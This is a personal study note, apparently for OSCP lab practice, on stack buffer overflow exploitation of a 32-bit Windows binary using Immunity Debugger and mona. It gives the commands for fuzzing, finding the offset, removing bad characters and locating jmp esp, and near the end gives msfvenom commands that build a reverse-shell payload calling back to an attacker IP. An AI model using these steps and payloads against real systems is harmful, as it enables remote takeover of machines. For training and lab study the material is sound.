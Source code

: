 # Setup and Fuzz
1. Run immunity debugger as admin
2. REPEAT STEP set mona working directory - DO THIS ON EVERY STAGE (ALSO CHANGE IPS IN .py SCRIPTS)
> !mona config -set workingfolder c:\mona\%p
3. Create a file called Fuzz.py, this file can be used to scope out the program where to crash it i.e ussually containing contents such as the following: 
> ![[Pasted image 20211122121536.png]]
4. Fuzz the target and note how many bytes it crashed at.
5. Run the following command IN LINUX TERMINAL and make the -l value 400 greater than the value the program crashed at 
> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l *400+ value*
# Exploit.py 
7. Create another file called exploit.py with the following contents but put your payload from the above command in the "payload" section:
> ![[Pasted image 20211122134236.png]]
8. Re-open and run the program on the windows machine again because we crashed it earlier.
9. Run exploit.py, this should crash the server again
10. This time, in immunity debugger enter the following command with the +400 value:
> !mona findmsp -distance *400+value*
# Exploit.py mod 2
11. update exploit.py script and set the offset variable (previously 0) to the EIP variable here:
> ![[Pasted image 20211122144719.png]]
12. also change the retn varialbe to "BBBB"
> ![[Pasted image 20211122153010.png]]
13. Restart program and launch exploit2 add mona to current working dir, the EIP register should now be 42424242 (4 B's)
> ![[Pasted image 20211122155224.png]]
# Bad Chars from exploit.py 2
14. Ensure the file dir is set again and run the following command once exploit2 has ran in mona:
> !mona bytearray -b "\x00"
15. Note the output location of the bytearray.bin file after it's ran:
> ![[Pasted image 20211122155953.png]]
16. Run badchars.py so we can copy and paste from terminal into our payload variable
# Exploit.py mod 3 - bad chars
17. add the chars into payload, and run the program and exploit.py again:
> ![[Pasted image 20211122164611.png]]
20. Make note of the ESP address after its crashed the program  :
> ![[Pasted image 20211122164722.png]]
21. Use mona command to retrieve bad chards:
> !mona compare -f C:\mona\oscp\bytearray.bin -a "ESP"
22. Bad chars will then be displayed in "memory corruption results"
> ![[Pasted image 20211122164901.png]]
23. Remove these chars in order one by one from the exploit script, Copying the ESP address into the compare command each time you run the program.
> !mona compare -f C:\mona\oscp\bytearray.bin -a *CHANGE ESP EVERYTIME CHAR REMOVED*
25. Once you've removed the minimum amount of chars i.e one can poison the following and when what you've removed matches the window, run the bytearray command with the bad chars in:
> !mona bytearray -b "*insert final bad chars \x00\x01 etc.*"
26. Run the program again with the final bye-array specified with them bad chars removed, use the compare command with the new ESP address and if it's done correctly an "unmodified" message should appear.
> ![[Pasted image 20211123125742.png]]

"\x00\x07\x2e\xa0"

# Jump ESP address

27. Once the modified message has appeared we can run the following command when it's in a crashed state to find jmp esp:
> !mona jmp -r esp -cpb "badchars"
28. You will be presented with a list of jmp esp addresses, any should work but we're looking for as many "false" values as possible, if something is "true" it may not work 
> ![[Pasted image 20211123130636.png]]
29. Copy the address you wish to use, write is as a note next to the "retn" address in the exploit file as we have to backwards the syntax
> > copy address > reverse address DONT FORGET BACKSLASHES
>![[Pasted image 20211123162518.png]]

# Generate msfvenom payload

30. Run the following command and change the -b argument to all the bad chars we used:
i.e: 
> msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
> msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
31. copy the quote to quote but leave out the semi colon and add brackets around the bytes into the payload variable:
> ![[Pasted image 20211123131857.png]]
32. Since an encoder was likely used to generate payload ensure we have some extra spare in memory by setting a padding value of 16 or more:
> ![[Pasted image 20211123132113.png]]
33. Listen on port 4444/port specified & run the exploit with the program runing to catch a shell :Dwhoam

DONT LEAVE PADDING IN


victim machine > on the netowork youre on > vuln 32bit bynary running on a port.
